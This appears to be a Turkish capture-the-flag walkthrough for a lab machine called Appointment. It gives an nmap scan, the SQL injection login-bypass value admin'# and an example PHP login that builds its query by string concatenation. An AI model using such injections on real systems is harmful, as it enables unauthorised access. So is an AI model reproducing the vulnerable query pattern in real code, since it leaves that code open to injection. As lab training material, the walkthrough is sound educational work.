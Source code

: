 ---
---

# Appointment

!!! info "Target IP Address"

    10.129.219.149

Hedef makine için Nmap taraması gerçekleştir:

```bash
nmap 10.129.219.149 -Pn -sV -p 80
```

```text title="Output" hl_lines="6"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 23:27 +03
Nmap scan report for 10.129.219.149
Host is up.

PORT   STATE    SERVICE VERSION
80/tcp filtered http

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.43 seconds
```

Web tarayıcısında [http://10.129.219.149](http://10.129.219.149) adresine git. Login formunda kullanıcı adı kısmına `admin'#` ve parola kısmına boşluk olmayan herhangi bir karakter gir.

Kullanıcı adı kısmına girilen bu değer sayesinde yanlış parola ile dahi giriş yapılabilir. Çünkü kullanıcı girdisini doğru şekilde kontrol etmeyen bir PHP kodu aşağıdaki gibi gözükebilir:

```php title="example.php" linenums="1" hl_lines="1"
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
$result=mysql_query($sql);
$count=mysql_num_rows($result);
if ($count==1){
    $_SESSION['username'] = $username;
    $_SESSION['password'] = $password;
    header("location:home.php");
}
```

Kullanıcı adı olarak `admin'#` değeri verildiğinde SQL satırı aşağıdaki gibi olur:

```php
$sql="SELECT * FROM users WHERE username='admin'# AND password='$password'";
```

Bu sorgu hatasız çalışacağından `$count` değişkenin değeri `1` olur ve Login başarılı olur.
